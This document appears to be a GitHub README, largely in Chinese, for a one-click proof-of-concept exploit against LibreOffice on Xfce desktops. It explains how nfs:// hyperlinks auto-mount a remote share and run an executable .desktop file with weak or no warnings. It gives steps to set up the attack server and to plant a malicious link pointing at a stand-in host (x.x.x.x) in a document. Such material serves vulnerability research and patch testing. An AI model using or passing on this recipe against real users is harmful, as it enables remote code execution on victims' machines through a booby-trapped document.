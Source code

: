 # LibreOffice one-click 1day

桌面应用程序打开文件和链接的常用方法是将 URI 传递给操作系统以进行处理。

在不同的操作系统下，其对应的方法也不一样：

- Windows：`ShellExecute*`

- Linux：xdg-open检测桌面环境并调用`gio open`、`gvfs-open`、`gnome-open`、`mate-open`或`exo-openenlightment_open`

- MACOS：`NSWorkspace#openURL()`

当以这样的方式打开用户提供的 URL 而没有进行额外检查时，可能会导致代码执行：

- 通过利用操作系统对特定 URI 的或特殊文件扩展名的处理

- 通过利用第三方应用程序 URL 处理程序中的漏洞

# How to use?

在Xfce环境下，满足两个条件

1、nfs URL 会在没有警告/通知的情况下自动挂载，并允许通过 URL 打开操作进行挂载和执行。

2、当文件位于已挂载的文件共享上并且文件设置了可执行权限时，执行 `.desktop` 文件不会触发警告。

3、当通过 nfs URL 挂载后，打开 `.desktop` 文件会显示有关该文件的未知来源的警告消息。但是，即使用户取消了执行，当目标再次打开相同的 URL 时，文件会被执行并且不会显示进一步的警告。


## Environment Setup

- debian docker 环境

```
bash start.sh
```

## Make malicious document

在文档中插入超链接

```url
nfs://x.x.x.x/data/exp.desktop
```

Ctrl + 点击触发超链接

## Verify

Tested on xubuntu 20.04.4, LibreOffice

![](/img/os.jpg)

If successful, the `pwned` file is written to `/tmp` directory

![](/img/exp.jpg)

# Credits

[docker-nfs-server](https://github.com/ehough/docker-nfs-server)

[Allow arbitrary URLs, expect arbitrary code execution
](https://positive.security/blog/url-open-rce)